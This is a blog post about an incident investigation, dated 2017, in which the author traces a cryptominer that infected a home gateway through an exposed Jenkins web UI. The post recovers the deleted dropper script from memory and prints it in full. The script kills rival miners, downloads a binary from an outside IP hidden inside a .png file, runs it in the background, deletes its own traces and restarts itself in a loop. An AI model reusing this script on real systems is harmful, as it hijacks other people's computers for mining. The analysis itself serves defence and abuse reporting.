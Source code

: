 Title: Mining via Atom processor
Date: 2017-07-18 07:44
Tags: mining, hack, jenkins

No, it is not about mining. :) The story is about infecting poor Atom-based gateway host with mining software through Jenkins web UI.

Couple of days ago I noticed strange noise from my home gateway fans. The reason was all the 8 cores were 100% loaded with processes named `irq` and `irqbalanc1`.

First, I just checked the source and decided that those processes were spawned by some Jenkins job. Sadly I got no time to investigate, so 8 hours later host was infested again, but I didn't knew it yet.

Days later I finished my real life stuff and remembered about strange load. Then I went to check the logs, temperature graph, etc. Later I would know that my Jenkins web UI was exposed to the internet to let GitHub hooks start jobs and host got infested using this interface. As for now, I just fixed docker-related iptables rules to restrict access.

And here comes the interesting part, see the investigation:

```
$ ps auxfww
root      1972  0.1  0.1 782452 56964 ?        Ssl  Jul04  26:19 /usr/bin/dockerd -H fd://
root      2265  0.0  0.0 754852 13808 ?        Ssl  Jul04  15:42  \_ containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --shim containerd-shim --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --runtime runc
root      1431  0.0  0.0 356400  7964 ?        Sl   Jul16   0:00  |   \_ containerd-shim 771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f /var/run/docker/libcontainerd/771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f runc
user      1451  0.0  0.0   1104     4 ?        Ss   Jul16   0:05  |       \_ /bin/tini -- /usr/local/bin/jenkins.sh
user      1475  0.1  9.3 14247684 3065036 ?    Sl   Jul16   5:57  |           \_ java -jar /usr/share/jenkins/jenkins.war
user       888  0.0  0.0   4332  1548 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     19520  0.0  0.0  12816   980 ?        S    Jul16   0:00  |               |   \_ grep -v grep
user     29026  0.0  0.0   4332  1576 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     29158  691  0.0 677948 20696 ?        Sl   Jul16 14660:11  |                   \_ /var/tmp/irqbalanc1 -c /var/tmp/httpd.conf
```

Of course, file was deleted after execution, so here i restore it from RAM:

```
lsof -p 29026
cp /proc/29026/fd/10 ~/fraud.sh
cat ~/fraud.sh
```

See it's getting files from IP 185.162.10.190 (hosting company already got abuse ticket) and extracting code form those via dd using specific offset. Kinda smart.

```
#!/bin/sh
pkill -f apaceha
pkill -f cryptonight
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs ps --ppid|awk '{print $1}'|grep -v PID|xargs kill -9
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs kill -9
ps -u jenkins|grep sh|grep -v irq|grep -v jenkins|grep -v grep|awk '{print $1}'|xargs kill -9
#ps ax|grep httpd.conf|grep -v irq|grep -v grep|grep tmp|awk '{print $1}'|xargs kill -9
ps -ef|grep .sh|grep tmp|grep -v irq|grep -v grep|grep -v gosh|cut -c 9-15|xargs kill -9
pkill -f 45.76.102.45
pkill -f stratum
pkill -f mixnerdx
pkill -f performedl
pkill -f wget
pkill -f sleep
#pkill -f /tmp/httpd.conf
pkill -f JnKihGjn
pkill -f irqba2anc1
pkill -f irqba5xnc1
pkill -f irqbnc1
pkill -f ir29xc1
pkill -f conns
pkill -f irqbalance
pkill -f crypto-pool
pkill -f minexmr
pkill -f XJnRj
pkill -f NXLAi
pkill -f BI5zj
pkill -f askdljlqw
pkill -f minerd
pkill -f minergate
pkill -f Guard.sh
pkill -f ysaydh
pkill -f bonns
pkill -f donns
pkill -f kxjd
pkill -f 108.61.186.224
pkill -f Duck.sh
pkill -f bonn.sh
pkill -f conn.sh
pkill -f kworker34
pkill -f kw.sh
pkill -f pro.sh
pkill -f polkitd
pkill -f acpid
ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
pkill -f 45.76.146.166
rm -rf /tmp/httpd.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/irq.sh
rm -f /tmp/irqbalanc1

ps auxf|grep -v grep|grep "irqbalanc1"|grep defunct|awk '{print $2}'|xargs kill -9

sleepTime=20

ps -fe|grep irqbalanc1 |grep -v defunct|grep -v grep
if [ $? -ne 0 ]
    then
    echo "start process....."

    cat /proc/cpuinfo|grep aes>/dev/null
    if [ $? -ne 1 ]
        then
        wget 185.162.10.190/miu1.png -O /tmp/conn
        dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
    else
        wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
    fi

    chmod +x /tmp/irqbalanc1
    wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
    nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
    sleep 5
    rm -rf /tmp/httpd.conf
    rm -rf /tmp/conn
    rm -rf /tmp/conns
    rm -f /tmp/irq.sh
    rm -f /tmp/irq
    rm -f /tmp/irqbalanc1
    while [ 0 -lt 1 ]
    do
        ps -fe| grep irqbalanc1 |grep -v defunct| grep -v grep
        if [ $? -ne 0 ]
            then
            echo "process not exists ,restart process now... "
            cat /proc/cpuinfo|grep aes>/dev/null
            if [ $? -ne 1 ]
                then
                wget 185.162.10.190/miu1.png -O /tmp/conn
                dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
            else
                wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
            fi

            chmod +x /tmp/irqbalanc1
            wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
            nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
            sleep 5
            rm -rf /tmp/httpd.conf
            rm -rf /tmp/conn
            rm -rf /tmp/conns
            rm -f /tmp/irq.sh
            rm -f /tmp/irq
            rm -f /tmp/irqbalanc1
            echo "restart done ..... "
        else
            echo "process exists , sleep $sleepTime seconds "
            pkill -f cryptonight
            pkill -f apaceha
            pkill -f 45.76.102.45
            pkill -f mixnerdx
            pkill -f performedl
            pkill -f JnKihGjn
            pkill -f irqba2anc1
            pkill -f irqba5xnc1
            pkill -f irqbnc1
            pkill -f ir29xc1
            pkill -f conns
            pkill -f irqbalance
            pkill -f crypto-pool
            pkill -f minexmr
            pkill -f XJnRj
            pkill -f NXLAi
            pkill -f BI5zj
            pkill -f askdljlqw
            pkill -f minerd
            pkill -f Guard.sh
            pkill -f ysaydh
            pkill -f bonns
            pkill -f donns
            pkill -f kxjd
            pkill -f 108.61.186.224
            pkill -f Duck.sh
            pkill -f bonn.sh
            pkill -f conn.sh
            pkill -f kworker34
            pkill -f pro.sh
            pkill -f polkitd
            pkill -f acpid
            pkill -f stratum
            ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
            pkill -f 45.76.146.166

        fi
        sleep $sleepTime
    done


else
    echo "runing....."
```

Then script connects to 139.60.160.248 (it is located in `httpd.conf`) and do stuff, using your CPU. I'm also sending abuse to this company to just let them know someone is playing dirty out there. Not sure if they could block this particular IP or something.

I also thoght that it is possible to find wallet accepting address within binary file (as there is no such in config file), but got no luck. Probably it could be located inside `/proc/*/cmdline` or around, but now it's too late as the process was killed.

Please let me know if you got ideas how to continue investigation.
